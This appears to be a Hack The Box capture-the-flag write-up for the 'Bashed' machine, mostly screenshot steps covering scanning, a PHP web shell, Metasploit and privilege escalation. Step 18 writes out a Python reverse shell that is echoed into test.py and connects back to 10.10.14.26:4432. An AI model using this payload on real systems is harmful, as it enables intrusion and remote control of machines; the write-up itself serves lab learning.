 ```yaml
---
title: "Bashed on Hack The Box"
date: "2020-12-03"
description: ""
coverimage: https://evilsaint.com/media/capture-the-flag/images/bashed/icon_image/bashed_htb.png
tags: htb, bashed, ctf
published: true
platform: Hack The Box
machineauthor: Arrexel
machinelevel: Easy
machineos: Linux
machineurl: https://app.hackthebox.eu/machines/Bashed
posttype: ctf
---
```

<h5 class="step">1 Initial Nmap Scan</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/59862a89-3865-4a4e-90ca-a91760f02714.png" class="img-fluid" alt="Initial NMAP scan">
<figcaption class="figure-caption text-center fw-normal text-dark">Initial NMAP scan.</figcaption>
</figure>

<h5 class="step">2 Nmap Follow Scan all HTTP Scripts</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/a17fd479-7fa2-4648-8054-e03dfd52feaa.png" class="img-fluid" alt="Nmap Follow Scan all HTTP Scripts">
<figcaption class="figure-caption text-center fw-normal text-dark">Nmap Follow Scan all HTTP Scripts.</figcaption>
</figure>

<h5 class="step">3 Apache 2.4.18 on Ubuntu</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/2609bdc9-db65-403d-b59b-64a53eff3872.png" class="img-fluid" alt="Apache 2.4.18 on Ubuntu">
<figcaption class="figure-caption text-center fw-normal text-dark">Apache 2.4.18 on Ubuntu.</figcaption>
</figure>


<h5 class="step">4 DEV Path</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/fa88a3bb-f4ba-48c0-841b-b7f8445dd204.png" class="img-fluid" alt="DEV Path">
<figcaption class="figure-caption text-center fw-normal text-dark">DEV Path.</figcaption>
</figure>



<h5 class="step">5 PHP Bash Shell</h5>

<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/cf425f0d-2460-4ee0-9cbf-4c1feffdb9f2.png" class="img-fluid" alt="PHP Bash Shell">
<figcaption class="figure-caption text-center fw-normal text-dark">PHP Bash Shell.</figcaption>
</figure>


<h5 class="step">6 Enumeration</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/c398a0b5-0410-4097-8767-0e80b7425f9e.png" class="img-fluid" alt="Enumeration">
<figcaption class="figure-caption text-center fw-normal text-dark">Enumeration.</figcaption>
</figure>


<h5 class="step">7 Create Shell</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/0721dbe3-1383-4b3f-bb45-d47fddbd3d23.png" class="img-fluid" alt="Create Shell">
<figcaption class="figure-caption text-center fw-normal text-dark">Create Shell.</figcaption>
</figure>


<h5 class="step">8 Host Shell</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/3fd8b6d2-f218-44ab-be6e-a37f00bf128c.png" class="img-fluid" alt="Host Shell"></h5>
<figcaption class="figure-caption text-center fw-normal text-dark">Host Shell.</figcaption>
</figure>

<h5 class="step">9 Web Delivery Metasploit</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/07224f64-52f0-41b5-bd31-d06ec87d06f8.png" class="img-fluid" alt="Web Delivery Metasploit">
<figcaption class="figure-caption text-center fw-normal text-dark">Web Delivery Metasploit.</figcaption>
</figure>


<h5 class="step">10 Upgrade-metasploit-meterpreter</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/cd810c67-172a-4cd8-9c85-fb6ec5b75197.png" class="img-fluid" alt="Upgrade-metasploit-meterpreter">
<figcaption class="figure-caption text-center fw-normal text-dark">Upgrade-metasploit-meterpreter.</figcaption>
</figure>


<h5 class="step">11 Enumerate</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/33f8e494-7f47-4e71-bec4-b33c873f8770.png" class="img-fluid" alt="Enumerate">
<figcaption class="figure-caption text-center fw-normal text-dark">Enumerate.</figcaption>
</figure>


<h5 class="step">12 Sudo -l</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/d1e4b1e4-29f9-4b79-a775-54096d7b09c8.png" class="img-fluid" alt="Sudo -l">
<figcaption class="figure-caption text-center fw-normal text-dark">Sudo -l.</figcaption>
</figure>


<h5 class="step">13 TTY Shell</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/9113ff77-4e0e-49ae-8c32-7d3747ae2eb3.png" class="img-fluid" alt="TTY Shell">
<figcaption class="figure-caption text-center fw-normal text-dark">TTY Shell.</figcaption>
</figure>


<h5 class="step">14 Files-Owned-By-Scriptmanager</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/15c8cd1a-0aee-4a1b-9d4e-2d3ff7373242.png" class="img-fluid" alt="Files-Owned-By-Scriptmanager">
<figcaption class="figure-caption text-center fw-normal text-dark">Files-Owned-By-Scriptmanager.</figcaption>
</figure>


<h5 class="step">15 File Fun By Root</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/d53ee8c9-cf63-4dc2-b260-d022db0902f6.png" class="img-fluid" alt="File Fun By Root">
<figcaption class="figure-caption text-center fw-normal text-dark">File Fun By Root.</figcaption>
</figure>


<h5 class="step">16 Spawn Shell As Scriptmanager</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/a0003e41-6f89-409f-af41-c6fb5ab9c746.png" class="img-fluid" alt="Spawn Shell As Scriptmanager">
<figcaption class="figure-caption text-center fw-normal text-dark">Spawn Shell As Scriptmanager.</figcaption>
</figure>


<h5 class="step">17 Content Discovery</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/ec5f1398-7837-485b-8713-ee5eaaff6f5d.png" class="img-fluid" alt="Content Discovery">
<figcaption class="figure-caption text-center fw-normal text-dark">Content Discovery.</figcaption>
</figure>



<h5 class="step">18</h5>

```
echo 'import socket,subprocess,os' > test.py echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py echo 's.connect(("10.10.14.26",4432)) ' >> test.py echo 'os.dup2(s.fileno(),0)' >> test.py echo 'os.dup2(s.fileno(),1)' >> test.py echo 'os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> test.py 
```

<br>
<h5 class="step">19 Got Root</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/27fae913-299a-4eae-aa07-790fa64d219a.png" class="img-fluid" alt="Got Root">
<figcaption class="figure-caption text-center fw-normal text-dark">Got Root.</figcaption>
</figure>


<h5 class="step">20 Overide Test Py</h5>
<figure class="figure text-center col-xs-12 col-sm-12 col-lg-12">
<img src="/static/026ce1c5-4b48-4415-a6af-f7ff37cbc7e4.png" class="img-fluid" alt="Overide Test Py">
<figcaption class="figure-caption text-center fw-normal text-dark">Overide Test Py.</figcaption>
</figure>
